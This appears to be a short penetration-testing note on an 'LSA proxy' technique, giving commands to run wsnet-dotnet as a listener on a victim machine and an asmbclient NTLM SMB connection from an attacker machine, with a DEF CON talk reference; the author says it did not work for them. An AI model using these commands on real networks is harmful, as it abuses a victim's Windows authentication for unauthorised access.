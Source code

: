 ```yaml
---
title: LSA Proxy
---
```


Really cool concept, but could not get it to work :(

Start [wsnet-dotnet](https://github.com/skelsec/wsnet-dotnet) on the victim machine (binds to port 8700 by default).

~~~ bat
.\WSNetFramework.exe
~~~

Run SMB client with [wsnet](https://github.com/skelsec/wsnet) integration on the attacker machine.

~~~ bash
asmbclient -v 'smb2+wsnetdirect-ntlm://ws01\jdoe@172.30.253.2/?proxytype=wsnetdirect&proxyhost=172.30.253.2&proxyport=8700&wsip=172.30.253.2'
~~~

References:

- [Spooky Authentication at a Distance - Tamas Jos - DEF CON 31](https://www.youtube.com/watch?v=7oAZK8x_mL0)
